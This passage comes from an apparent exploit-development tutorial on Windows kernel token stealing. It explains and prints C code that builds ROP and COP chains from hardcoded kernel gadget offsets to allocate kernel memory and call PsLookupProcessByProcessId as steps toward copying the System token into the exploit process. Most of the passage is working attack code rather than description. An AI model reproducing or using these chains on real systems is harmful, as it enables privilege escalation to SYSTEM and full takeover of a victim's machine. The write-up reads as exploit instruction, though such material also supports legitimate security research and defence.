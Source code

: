 It looks complicated, but it isn't. The value of the return address is stored in a local variable (`aBuffer`) for later. Also notice that I am using call-oriented programming (COP) due to a lack of gadgets (ref: ` mov r8, rbp ; mov rcx, rdi ; call rax ;`).

## Resolving the EPROCESS Address

For us to steal the `System` token we need to resolve our exploit process `EPROCESS` structure, the `System` process structure, steal the token from the `System` process, and apply it to the exploit `EPROCESS`. The first step is to resolve the `EPROCESS` address:

First we need to allocate some memory for the `PsLookupProcessByProcessId` call. The syntax for this call is:

```c
NTSTATUS PsLookupProcessByProcessId(
  [in]  HANDLE    ProcessId,
  [out] PEPROCESS *Process
);
```

We pop our `ProcessId` into `rcx`, and allocate a small buffer, and reference it in `rdx`; this is where the `EPROCESS` address will be written to. The ROP chain to allocate memory is shown below:

```c
// allocate some memory in the kernel (for use with PsLookupProcessByProcessId)
*(rop + index++) = kernelBase + 0x646305;			        // pop rcx ; ret ;
*(rop + index++) = 0x00;                                    // NonPagedPool
*(rop + index++) = kernelBase + 0x6481fa;			        // pop rdx ; ret ;
*(rop + index++) = 0x08;                                    // 0x8
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // shadowspace
*(rop + index++) = kernelBase + 0x364040;                   // call ExAllocatePool
*(rop + index++) = kernelBase + 0x5ce5b5;	        		// add rsp, 0x28 ; ret ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // junk
 
*(rop + index++) = kernelBase + 0x5d20d8;			        // push rax ; pop rdi ; ret ;
```

We have a buffer referenced in `rdi` which we can use in the `PsLookupProcessByProcessId` call:

```c
// resolve the current process address
*(rop + index++) = kernelBase + 0x646305;			        // pop rcx ; ret ;
*(rop + index++) = (QWORD)GetCurrentProcessId();            // the PID for this process
*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = kernelBase + 0x3d3195;			        // mov rdx, rdi ; call rax ;
for (DWORD i = 0; i < 5; i++)
    *(rop + index++) = ROP_NOP;                             // shadowspace

*(rop + index++) = kernelBase + 0x689130;                   // call PsLookupProcessByProcessId
```

Lastly we move the actual `EPROCESS` address referenced in `rdi` into `r10` for later, by derferencing it using `rax`:
